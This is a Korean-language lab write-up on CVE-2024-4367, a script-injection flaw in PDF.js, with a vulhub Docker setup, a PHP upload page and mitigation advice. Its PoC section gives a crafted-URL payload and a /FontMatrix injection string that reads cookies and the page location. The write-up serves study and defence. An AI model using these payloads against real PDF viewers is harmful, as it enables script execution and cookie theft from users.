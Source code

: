 # CVE-2024-4367
| whs 3기 이유진

## 개요
PDF.js는 HTML5로 구축된 PDF(Portable Document Format) 뷰어입니다.

4.1.392 이전 PDF.js 버전에서 JavaScript 코드 삽입 취약점이 발견되었습니다. 이 취약점을 악용하여 공격자는 악성 PDF 파일을 여는 즉시 임의의 JavaScript 코드를 실행할 수 있다.

Mozilla에서 개발 및 관리하는 자바스크립트 기반의 pdf 뷰어인 PDF.js 라이브러리에 존재하는 XSS(크로스사이트 스크립팅) 취약점으로 **crafted URL(조작된 URL)**을 통해 PDF.js 뷰어 안에서 임의의 스크립트를 실행할 수 있다.

## 환경 구축

### docker-compose.yml
```
version: '2'
services:
 web:
   image: vulhub/pdfjs:4.1.392
   volumes:
    - ./index.php:/var/www/html/index.php
   ports:
    - "8080:80"
```

### 테스트 환경 만들기
```
docker compose up -d
```

### 페이지 접속 하기
`http://your-ip:8080` 를 통해 페이지에 접속할 수 있다.
![page](./1.png)

### index.php
PDF 파일을 업로드 받고, 업로드가 완료되면 PDF.js 뷰어를 통해 업로드한 파일을 볼 수 있도록 리다이렉트 시키는 간단한 파일 업로드 페이지를 구현하였다.
```php
<?php
if (!empty($_FILES)):

// Check for errors
if($_FILES['file_upload']['error'] > 0){
    die('An error ocurred when uploading.');
}

// Check filesize
if(!is_uploaded_file($_FILES['file_upload']['tmp_name'])) {
    die('File is not uploaded file');
}

$ext = pathinfo($_FILES['file_upload']['name'], PATHINFO_EXTENSION);
if ($ext !== 'pdf') {
    die('Unsupported filetype uploaded.');
}

$new_name = uniqid() . '.pdf';
if(!move_uploaded_file($_FILES['file_upload']['tmp_name'], __DIR__ . '/upload/' . $new_name)){
    die('Error uploading file - check destination is writeable.');
}

header('Location: /web/viewer.html?file=../upload/' . $new_name, true, 302);
exit;
else:
?>
<form method="post" enctype="multipart/form-data">
    File: <input type="file" name="file_upload">
    <input type="submit">
</form>
<?php
endif;
```

- `header('Location: /web/viewer.html?file=../upload/' . $new_name, true, 302);` 부분을 통해 브라우저를 `/seb/viewer.html`로 리다이렉트한다.
- `enctype="multipart/form-data"` 설정을 통해 파일 업로드를 할 수 있도록 한다.
    - 파일 저장위치는 `upload/` 이고, `uniqid()`를 통해 고유 ID를 사용한다.

| PDF.js를 이용하여 PDF를 열람시켜주는 웹 서버이며, URL인코딩 등 검증이 미흡함. `viewer.html?file=` 파라미터를 통해 조작이 가능하며, 사용자가 공격자가 보낸 링크를 클릭하거나 악성 pdf를 열람할 수 있다.

## PoC

1. Crafted URL을 통한 XSS
```
http://your-ip:8080/web/viewer.html?file=javascript:alert(document.domain)
```
- file 파라미터에 `javascript:` 를 삽입하여 PDF.js가 이를 실행하도록 만들 수 있다. 
    - alert(document.domain) 실행

2. 악성 PDF 파일을 통한 XSS (poc.pdf)
```
/FontMatrix [0.1 0 0 0.1 0 (1\); \nalert('document.domain: '+window.document.domain+'\nlocation: '+window.location+'\ncookie: '+window.document.cookie)]
```
- pdf 내부 `/FontMatrix` 에 자바스크립트 삽입
    - FontMatrix는 폰트의 변환 행렬을 지정하는 부분인데, 처음 앞부분은 정상적으로 삽입하여 정상적인 행렬 수치로 해석하게 한 후, 6번째 실수부분을 문자열을 삽입한다.
        - 파서가 숫자가 아니라 문자열로 해석하거나 구문오류를 무시하고 실행하는 경우 해당 부분이 실행되게 된다.
    - 텍스트 렌더링 과정에서 `/FontMatrix`를 파싱하여 삽입된 스크립트 실행 가능

즉, 원래 숫자만 와야 하는 /FontMatrix 마지막 자리에 JavaScript 코드를 몰래 심어 브라우저를 조종하는 기법이다.

![page](./2.png)
index.php 업로드 폼에 악성 pdf 삽입한 결과

## 결론
이 취약점을 악용하면 PDF.js가 파일을 여는 과정에서 JavaScript가 실행되며, 이때 실행 컨텍스트는 일반적인 `file://` 이 아닌` resource://pdf.js`로 설정된다.
이를 통해 공격자는 사용자가 열람 중인 PDF 파일의 실제 경로(window.PDFViewerApplication.url)를 알아내거나, 파일 다운로드 유도가 가능하다.

특히 PDF.js를 내장한 Electron 애플리케이션에서는 샌드박싱이 제대로 되어 있지 않을 경우, 네이티브 코드 실행(RCE)까지 이어질 수 있다.

PDF.js 설정에서 isEvalSupported를 false로 설정하여 위험한 코드 경로를 비활성화하고, 강력한 Content Security Policy(CSP) 를 적용하여 unsafe-eval을 차단할 필요가 있다.

## 출처
https://github.com/vulhub/vulhub/tree/master/pdfjs/CVE-2024-4367
https://hackyboiz.github.io/2024/05/22/pwndorei/2024-05-22/